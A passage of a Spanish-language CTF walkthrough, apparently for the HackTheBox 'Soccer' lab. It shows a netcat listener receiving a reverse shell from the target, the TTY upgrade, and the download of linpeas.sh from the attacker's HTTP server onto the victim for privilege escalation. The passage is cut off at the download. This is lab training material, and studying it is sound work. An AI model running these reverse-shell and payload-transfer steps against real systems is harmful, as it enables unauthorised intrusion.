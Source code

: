 Si todo ha ido bien `recibiremos` una `shell`

```
# nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.16.28] from (UNKNOWN) [10.129.132.240] 49752
Linux soccer 5.4.0-135-generic #152-Ubuntu SMP Wed Nov 23 20:19:22 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 21:30:44 up  8:18,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

Vamos a `realizar` el `tratamiento` a la `TTY`, para ello obtenemos las `dimensiones` de nuestra `pantalla`

```
# stty size
45 18
```

Efectuamos el `tratamiento` a la `TTY`

```
# script /dev/null -c bash
[ENTER]
[CTRL + Z]
# stty raw -echo; fg
[ENTER]
# reset xterm
[ENTER]
# export TERM=xterm
[ENTER]
# export SHELL=bash
[ENTER]
# stty rows 45 columns 183
[ENTER]
```

## Privilege Escalation

Nos descargamos `linpeas.sh` [https://github.com/peass-ng/PEASS-ng/releases/tag/20241007-05f777b2](https://github.com/peass-ng/PEASS-ng/releases/tag/20241007-05f777b2) y nos montamos un `servidor http` con `python` en el `mismo directorio` del binario descargado

```
# python -m http.server 80
```

Nos descargamos el `binario` en la `máquina víctima`

```
www-data@soccer:/tmp/privesc$ wget http://10.10.16.28/linpeas.sh
--2024-10-09 23:08:47--  http://10.10.16.28/linpeas.sh
Connecting to 10.10.16.28:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 826586 (807K) [text/x-sh]
Saving to: 'linpeas.sh.2'

linpeas.sh.2                    100%[=======================================================>] 807.21K  2.72MB/s    in 0.3s    

2024-10-09 23:08:48 (2.72 MB/s) - 'linpeas.sh.2' saved [826586/826586]
```
